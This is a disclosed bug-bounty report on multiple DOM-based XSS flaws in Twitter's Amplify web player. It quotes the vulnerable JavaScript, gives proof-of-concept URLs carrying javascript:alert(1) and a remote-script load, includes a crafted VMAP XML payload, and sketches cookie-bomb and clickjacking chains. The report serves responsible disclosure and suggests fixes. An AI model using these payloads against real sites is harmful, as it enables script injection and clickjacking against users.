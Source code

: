 # Multiple DOMXSS on Amplify Web Player

## Report Details
- **Report ID**: 88719
- **URL**: https://hackerone.com/reports/88719
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2015-09-13T13:08:16.024Z
- **Disclosed**: 2017-04-15T08:27:59.074Z

## Reporter
- **Username**: filedescriptor
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: x

## Vulnerability Information
Hi,
I would like to report multiple DOMXSS issues on https://amp.twimg.com/amplify-web-player/prod/source.html.

##Details:

> Please use latest IE to open all the PoCs because of CSP

##1. ```$.get``` sink

```javascript
define("data/playlist/with_json_loader", ["require", "flight/lib/compose", "data/playlist/with_json_parser"], function(e) {
    function r() {
        t.mixin(this, [n]),
        this.loadJson = function(e) {
            return $.get(e).then(this.parseJson.bind(this))
-----------------------^^
```

It is dangerous to use jQuery's ajax function without specifying the expected data type. Attacker can supply a remote js file to achieve XSS. This can be addressed by specifying the data type to be JSON. [Ref](https://github.com/jquery/jquery/issues/2432).

**PoC**: https://amp.twimg.com/amplify-web-player/prod/source.html?url=https://innerht.ml/vectors/js.php
After clicking the play button, an alert will be popped up.

##2. Lack of URL validation on ```playerUrl```

```javascript
define("ui/playback/vine_display", ["require", "flight/lib/component"], function(e) {
    function n() {
        this.attributes({
            playerUrl: undefined
        }),
        this.$frame = undefined,
        this.loadVideo = function() {
            if (!this.attr.playerUrl)
                return;
            this.$frame = $('<iframe id="vine-frame" frameborder="0" scrolling="no" allowtransparency="true"></iframe>'),
            this.$frame.attr("src", this.attr.playerUrl),
-----------------------------------------------^^
```

When the source type is Vine, the player will try to inject an iframe with user-supplied parameter ```player_url```. Attacker can make it a ```javascript:``` attacker vector. Proper fix would be to validate if the URL starts with http(s). 

**PoC**: https://amp.twimg.com/amplify-web-player/prod/source.html?player_url=javascript:alert(1)&source_type=vine
After clicking the play button, an alert will be popped up.

##3. Lack of URL validation on ```ctaLink```

```javascript
        this.updateCallToAction = function(e, t) {
            var i = this.select("textNodeSelector");
            i.html("");
            if (t && t.url && t.type) {
                this.id = t.id,
                this.type = t.type,
                this.ctaLink = t.url;
                var s, o = n.getUrlMetadata(this.ctaLink), u = o.hostname;
                u.indexOf("www.") === 0 && (u = u.substr(4)),
                t.type === "visit" ? s = r("Visit %{hostname}", {
                    hostname: u
                }) : s = r("Watch now at %{hostname}", {
                    hostname: u
                });
                var a = $("<a target='_blank'></a>");
                a.attr("href", this.ctaLink),
--------------------------------------^^
```

When loading a vmap file, the player will inject an anchor referencing ```tw:cta_open_url```. Attacker can supply a remote vmap file with crafted ```tw:cta_open_url``` value (e.g. ```javascript:```) to perform XSS. Such file would be like this:

```xml
<?xml version="1.0" encoding="UTF-8"?>

<vmap:VMAP xmlns:tw="http://twitter.com/schema/videoVMapV2.xsd"
           xmlns:vmap="http://www.iab.net/vmap-1.0"
           xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
           xmlns:esi="http://www.edge-delivery.org/esi/1.0"
           xsi:noNamespaceSchemaLocation="vast3.xsd">
  <vmap:Extensions>
    <vmap:Extension>
      <tw:amplify>
        <tw:content ownerId="915643998" contentId="fce6b1eb-b250-437f-9e68-2e9e5813a6d7" stitched="false">

      <tw:cta_open_url url="javascript:alert(1)" />

          <MediaFiles>
            <MediaFile>
              <![CDATA[http://amp.twimg.com/prod/multibr_v_1/video/2015/03/26/16/0f41c544-uploadedvideo-libx264-main-2028k.mp4?9gOtbn78IXQ3XYKMMntL6URZZjLVfwxgCGtkHlrJ1CY%3D]]>
            </MediaFile>
          </MediaFiles>
        </tw:content>
      </tw:amplify>
    </vmap:Extension>
  </vmap:Extensions>
</vmap:VMAP>
```
I don't have PoC for this one because the vmap file needs to be hosted on a white-listed domain, but it is still a potential attack.

#Impact
Now, one may wonder how these XSSes can affect users. There are at least two ways I can think of:

#1. Denial of Service
The domain ```*.twimg.com``` is used to store various static files all over Twitter. Attacker can use Cookie Bomb attack to effectively make users unable to access them, hence breaking a lot of things when users browser Twitter.

#2. Clickjacking
Amplify Web Players usually appear in user's timeline. As they are embedded in iframe, attacker can use XSS to change the player's URL. Combining the flaw of ```X-Frame-Options: SAMEORIGIN```, attacker can conduct a clickjacking attack with some user interactions. This is a bit tricky to explain so I guess you can watch the video demo to get some ideas.

**PoC**: http://innerht.ml/pocs/twitter-amp-xss/
After clicking the button, a new window will be opened. Wait a few seconds and click the amplify player. After that the opener page will be changed to a Tweet and the original amplify player will become an attacker controlled page which contains clickjacking attack.

**Video Demo**: https://vimeo.com/139118917 (password: xfo)



## Attachments
No attachments
